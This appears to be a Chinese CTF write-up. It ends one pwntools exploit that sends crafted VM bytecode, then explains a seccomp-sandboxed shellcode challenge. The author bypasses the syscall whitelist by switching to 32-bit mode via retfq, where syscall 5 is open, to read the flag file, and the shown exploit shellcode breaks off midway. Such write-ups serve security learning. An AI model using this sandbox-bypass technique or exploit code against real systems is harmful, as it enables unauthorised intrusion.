 ```python
    gstore 4
    gstore 5
    gload 147
    gload 146
    iconst 4294965952
    iadd
    gstore 6
    gstore 7
    gload 147
    gload 146
    iconst 188941
    iadd
    gstore 8
    gstore 9
    halt
    '''
    code = generate_code(code)
    code = code + b'\x00'*(512-len(code))
    # gdb.attach(p, "b *$rebase(0x12f6)\nb*$rebase(5029)")
    # input()
    p.sendline(code)
    p.interactive()

if name == 'main':
    pwn()

```

# shellcode | limiter | done

checksec 一下， 全开 ida 看一下文件，发现开局就能在一片区域写入可执行代码，并且跳转过去执行。

直接写入 shellcode，报错 bad system call，百度，是运用了沙箱，限制了系统调用，用工具查看，是一个白名单，仅能调用 sys_write, sys_read, sys_fstat,和 sys_mmap获得 shell 基本不可能了，考虑直接读出 flag 的值，注意没有 sys_open,但 sys_fstat 在 64 位下的系统调用号是 5，seccomp 这里的白名单只会根据系统调用号来限制系统调用， 而 5 号在 32 位下恰好是 sys_open，因此可以先跳到 32 位下调用 sys_open 打开文件，再返回 64 位打印文件值，64 位跳 32 位指令是 retfq， 32 位返回 64 位指令是 retf， 在切换之前， 要在栈中传入跳转到的地址和标识符（ 0x23 表示 32 位，0x33 表示 64 位），由于原来的代码段地址和栈地址都超过了 32 位，因此我们应该在一片低内存区域写入 shellcode ，再在 32 位下执行，调用 sys_mmap 可为我们分配这低地址空间。（注意打开文件只能以只读的方式打开，否则由于远程服务器上权限不足会失败，而本地权限足够就能成功）

以下是 exp:

```python
#! python3
from pwn import *




shellcode2 = '''
mov esp, 0x8048400;
mov ebp, esp;
push ebp;
mov eax,0;
push eax;
mov eax, 0x67616c66;
push eax;
mov ebx, 0;
add ebx, esp;
mov  ecx, 0;
mov eax, 5;
int 0x80;
mov ebp, eax;
mov eax, 0x33;
push eax;
```